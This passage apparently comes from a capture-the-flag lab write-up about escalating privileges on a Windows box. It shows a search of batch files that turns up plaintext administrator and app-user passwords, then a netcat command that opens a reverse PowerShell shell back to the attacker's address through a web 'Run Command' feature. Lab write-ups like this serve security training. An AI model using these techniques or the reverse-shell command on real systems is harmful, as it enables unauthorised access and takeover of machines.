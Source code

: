 ```
PS C:\Program Files\WindowsPowerShell\Modules\PackageManagement> Get-ChildItem C:\*.bat -Recurse -Force | Select-String -Pattern administrator
Get-ChildItem C:\*.bat -Recurse -Force | Select-String -Pattern administrator

r.bat:5:for /F "skip=6" %%i in ('net localgroup "administrators"') do net 
localgroup "administrators" %%i /delete
r.bat:8:net user administrator _1nt3rn37ofTh1nGz
``` 

Looking at r.bat, it turns out there are credentials in plaintext!
```
PS C:\Program Files\WindowsPowerShell\Modules\PackageManagement> cat r.bat
cat r.bat
@echo off

:LOOP

for /F "skip=6" %%i in ('net localgroup "administrators"') do net localgroup "administrators" %%i /delete

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

ping -n 3 127.0.0.1

cls

GOTO :LOOP

:EXIT
```

Using these credentials, we are now able to login to the web interface and access the Run Command feature with elevated privileges. This will allow opening a reverse shell with the associated privileges depending on the account. 

Using a similar approach as above, set up a netcat listen on the Kali machine and run (in the Run Command web UI): 

```
C:\\Windows\\system32\\nc64.exe 10.10.14.247 6969 -e powershell.exe
```

This should open a reverse shell, and checking the user reveals that we have successfuly taken control of the respective user: 

```
PS C:\windows\system32> $env:username
$env:username
Administrator
```

or, if using the "app" user: 

```
PS C:\windows\system32> $env:username
$env:username
app
```
